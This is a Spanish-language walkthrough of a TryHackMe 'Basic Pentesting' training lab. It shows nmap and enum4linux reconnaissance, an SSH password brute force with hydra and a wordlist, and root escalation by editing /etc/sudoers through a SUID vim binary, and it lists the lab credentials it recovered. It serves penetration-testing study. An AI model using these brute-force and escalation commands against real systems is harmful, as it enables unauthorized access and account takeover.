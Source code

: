 # Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080

![image.png](imagenes/image 6.png)

- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```

![image.png](imagenes/image 7.png)

- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/

![image.png](imagenes/image 8.png)

**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```

![image.png](imagenes/image 9.png)

User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    

![image.png](imagenes/image 10.png)

- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```

![image.png](imagenes/image 11.png)

```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```